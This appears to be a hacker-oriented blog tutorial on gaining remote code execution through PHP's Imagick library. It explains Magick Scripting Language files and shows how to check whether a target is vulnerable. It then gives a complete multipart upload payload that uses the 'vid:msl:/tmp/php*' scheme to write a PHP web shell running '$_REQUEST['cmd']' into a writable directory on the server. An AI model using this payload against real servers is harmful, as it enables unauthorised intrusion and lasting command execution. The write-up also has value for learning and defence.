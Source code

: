 # Surprising Imagick with RCE

`Date : 27-12-2023`

![runcloud-install-imagemagick-imagick-single-720x183](https://github.com/kris3c/kris3c.github.io/assets/128035061/9e7d1a0c-38da-461a-b0aa-dd523c149f7b)

Hey Hackers, In this article we will understand how we can abuse the imagic fucntion of php to execute our php code and gain RCE on the server.

## Table of Content


1. [Understanding Imagick](#understanding-imagick)
2. [Testing the vulnerability](#testing-the-vulnerability)
3. [Exploitation](#exploitation)

## Understanding Imagick 

Imagick is a library in PHP that allows us to manipulate any image file. It supports different formats png, jpg, txt etc but the most interesting supported format is MSL.

MSL stands for Magick Scripting Language and it is based on XML. It facilitate reading of images , manipulating them and storing them back in the filesystem.

Example :

```
touch /tmp/test/test.msl
```

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://IP/image.png" />
<write filename="/tmp/test/image-exported.png" />
</image>
```

This script will read the file image.png from the provided location and write the file in the /tmp/test directory.

To use the script in PHP we need to use the msl: scheme with in the Imagick function as :

```
php -r '$img = new Imagick("msl:/temp/test.msl");'
```

## Testing the vulnerability 

To test the vulnerability we can simply add "\[10x10]"  at the end of the filename 

```
{php
	path:"var/www/html/image.png[10x10]"
	...
}
```

Now check whether the content length is changed or not. If the content length is changed it indicates that we have access to the imagick library.  

## Exploitation 

```
Required Header :

Content-Type: multipart/form-data; boundary=ABC

Arguments for the required parameters :

vid:msl:/tmp/php*

Example : path paramter is required in the request that takes path of the image.

?path=/var/www/image.png
?path=vid:msl:/tmp/php*
```

**vid: scheme** - This scheme allows us to include tmp file with MSL content without actually knowing the name of the file. Here we are using wildcard with php to manipulate a php file.


```xml
--ABC
Content-Disposition: form-data; name="payload"; filename="payload.msl"
Content-Type: text/plain
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;" />
 <write filename="info:</path/to/writeable/directory>/payload.php" />
</image>
--ABC--
```

Steps followed by the application are :

1. Calling the MSL script :  To call out the MSL script we need to know the absolute path of the script but we don't know that so we have used the vid: scheme to include a temp MSL script.
2. Executing the script : First server will read the content (our payload) as caption for the file then it will write the caption as information to the payload.php file.
